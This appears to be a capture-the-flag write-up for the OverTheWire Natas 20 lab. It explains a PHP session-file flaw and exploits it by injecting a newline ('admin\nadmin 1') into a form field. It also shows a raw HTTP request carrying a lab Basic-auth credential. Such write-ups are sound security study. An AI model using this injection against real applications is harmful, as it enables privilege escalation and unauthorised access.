 Thought it had something todo with the SID. Could not figure it out. 

Used a write up to get a hint for the newline (\n).

Everything in $_SESSION is added to data with a newline delimiter by the mywrite function. Data is then written to a session file.


```php
ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n";
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);    
```

https://www.php.net/manual/en/function.explode.php  
explode — Split a string by a string


Everything written in session file is read by the myread function. 

Spaces in files are used by explode to split the string.
as long as the first part is not equal to "" the first part and seccond part of the explode are added back in the global $_SESSION variable.

```php
foreach(explode("\n", $data) as $line) {
    debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
}
```

This means if we write a session file that has 2 lines like this.
```
name somename
admin 1
```

the read function will do the following.

```PHP
$_SESSION[name] = somename
$_SESSION[admin] = 1
```

this will then pass the print_credentials check.
How do we do this ? Add a newline to the input.   

admin\nadmin 1


```
POST /index.php HTTP/1.1
Host: natas20.natas.labs.overthewire.org
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:69.0) Gecko/20100101 Firefox/69.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 22
Authorization: Basic bmF0YXMyMDplb2ZtM1dzc2h4YzVid3RWbkV1R0lscjdpdmI5S0FCRg==
Connection: close
Referer: http://natas20.natas.labs.overthewire.org/index.php
Cookie: __cfduid=dc2e23c92b1d237ff6fcd21eeaace26841568619071; __utma=176859643.1037695426.1568619071.1568619071.1568619071.1; __utmz=176859643.1568619071.1.1.utmcsr=(direct)|utmccn=(direct)|utmcmd=(none); PHPSESSID=sess
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```